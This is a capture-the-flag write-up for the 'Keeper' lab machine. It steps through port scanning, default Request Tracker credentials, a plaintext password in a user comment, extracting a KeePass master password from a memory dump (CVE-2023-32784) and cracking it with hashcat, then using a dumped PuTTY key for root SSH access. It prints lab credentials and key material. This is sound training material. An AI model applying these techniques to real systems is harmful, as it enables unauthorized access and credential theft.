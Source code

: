 ## Keeper

### Lab Details 

- Difficulty: Easy
- Type: Web App, KeePass, Priv Esc

#### Tasks

Q1: How many open TCP ports are listening on Keeper?
 - `nmap 10.10.11.227 -sT -p- -T4 -vv -oA nmap_keeper`
 ```
 Not shown: 65497 closed tcp ports (conn-refused)
 PORT      STATE    SERVICE     REASON
 22/tcp    open     ssh         syn-ack
 80/tcp    open     http        syn-ack
 ```
Q2: What is the default password for the default user on Request Tracker (RT)?
 - Searching on google for default user login
 - username:root
 - password:password

Q3: Besides root, what other user is in RT?
 - visit Admin -> User on the top tool bar 
 - ref image attached 
![[RT.png]]

Q4: What is the lnorgaard user's password on Keeper?
 - user password is in the comment section of the user profile
 ![[user_comment.png]]

Q5: Submit the flag located in the lnorgaard user's home directory.
 - login to target using new found username and password
 - lnorgaard:Welcome2023!

Q6: Submit the flag located in the lnorgaard user's home directory.
 - cat user.txt

Q7: What is the 2023 CVE ID for a vulnerability in KeePass that allows an attacker access to the database's master password from a memory dump?
 - searching google regarding the 2023 keepass masterkey mem dump gives results on CVE-2023-32784
 - this github repo goes into details regarding the attack -> https://github.com/vdohney/keepass-password-dumper 

Q8: What is the master password for passcodes.kdbx?
 - we need 2 files to extract the master key according to https://github.com/JorianWoltjer/keepass-dump-extractor 
 - 1. memory dump of the KeePass process 
 - 2. the .kdbx file that we want to crack

 ```  
 keepass-dump-extractor KeePass.DMP -f all > wordlist.txt
 keepass2john passwords.kdbx > passwords.kdbx.hash
 hashcat -m 13400 --username passwords.kdbx.hash wordlist.txt
 ```
 - we get `rødgrød med fløde` as the master key after running hashcat

Q9: What is the first line of the "Notes" section for the entry in the database containing a private SSH key?
 - tried to wget the passcode.kdbx and viewing it using keepass GUI however getting error 
 - install kpcli to interact with the database file via cli
 - command to view the entry is `show 0 -f` where 0 is the first entry and -f will show the password in plain.
```
kpcli:/passcodes/Network> show 0 -f

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
Q10: Submit the flag located in the root user's home directory.
 - the file in keeper.htb is a .ppk and in order to use it to login to ssh we will need to seperate the ssh private key from it
 - we need puttygen to perform this task 
 ```
 sudo apt install putty-tools
 puttygen keeper.ppk -O private-openssh -o id_rsa
 ``` 
 - where keeper.ppk is the file that contains the note section and id_rsa is the private key we can use to login to root via ssh 
 ``` ssh -i id_rsa target_ip 
 ```


#### Lesson Learned
 - Overcomplicating things, was expecting a RCE from an exploit in the web app to gain the initial foothold 
 - Try new found logins with different services on the target
